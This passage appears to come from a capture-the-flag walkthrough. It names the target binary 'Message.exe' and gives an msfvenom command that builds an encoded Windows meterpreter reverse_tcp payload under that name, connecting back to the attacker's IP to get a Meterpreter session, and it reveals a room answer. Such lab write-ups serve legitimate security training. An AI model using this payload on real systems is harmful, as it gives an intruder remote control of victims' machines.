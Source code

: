 <img src="https://user-images.githubusercontent.com/67650329/193583487-4a1e4164-0251-44b0-b717-9ba127947f79.png" width="500px" align="center">

**What is the name of the binary you're supposed to exploit? **

**Answer: Message.exe**

Download the another shell file. `Use msfvenom`.

-> `msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST={YOUR_IP} LPORT={PORT} -f exe -o Message.exe`

<img src="https://user-images.githubusercontent.com/67650329/193583989-92f3f802-338d-464e-bdd6-abb386302369.png" width="500px" align="center">

You can run another `metasploit` with the same step on top.

<img src="https://user-images.githubusercontent.com/67650329/193584184-97130e47-bdcd-4b57-b0f0-978319ee9529.png" width="500px" align="center">

BAAM you get into the metepreter. Now you can search the user and root. HAPPY EXPLORING.

<img src="https://user-images.githubusercontent.com/67650329/193585074-66d7d9c6-6d57-4f2d-ac83-1aaa4c9f6a51.png" width="500px" align="center">

<img src="https://user-images.githubusercontent.com/67650329/193584684-39b4ea07-2896-4788-92ca-ecca03466da6.png" width="500px" align="center">

<img src="https://user-images.githubusercontent.com/67650329/193584752-d520b2cb-6ead-4b95-89a3-ed83c253b958.png" width="500px" align="center">

---
